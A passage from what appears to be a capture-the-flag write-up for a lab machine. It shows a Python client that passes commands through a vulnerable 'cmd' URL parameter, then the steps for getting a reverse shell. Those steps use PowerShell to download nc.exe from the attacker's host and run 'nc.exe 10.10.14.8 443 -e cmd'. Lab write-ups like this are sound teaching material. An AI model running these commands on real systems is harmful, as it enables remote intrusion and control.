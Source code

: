 ```python

while True:
  # Display a little command prompt
  cmd = input("$> ")
  
  # Send the command to the target
  r = requests.get(target + "&cmd=" + cmd)

  # Check that the HTTP request was successful, then filter HTML to only include the output of the command
  if r.status_code == 200:
    soup = BeautifulSoup(r.content, features='lxml')
    output = ""
    count = 0
    for line in soup.findAll('body')[-1].get_text().split('\n'):
      if count >= 46:
        output += line + '\n'
      count += 1
    print(output)
```

I used my crappy shell to have a quick poke around before upgrading to a netcat reverse shell. The steps were:
1. Set up HTTP Server and netcat listener
    - `python -m SimpleHTTPServer 80`
    - `nc -nvlp 443`
2. Transfer the netcat binary across to the server using PowerShell's `Invoke-WebRequest` cmdlet - I picked a directory that I assumed would be writeable
    - `Powershell IWR -URI http://10.10.14.8/nc.exe -OutFile c:\windows\system32\spool\drivers\color\nc.exe`
3. Execute netcat to get a reverse shell
    - `c:\windows\system32\spool\drivers\color\nc.exe 10.10.14.8 443 -e cmd`

Here's the result:

![Image](/assets/img/sniper/sniper_web_exploit_3.png)
  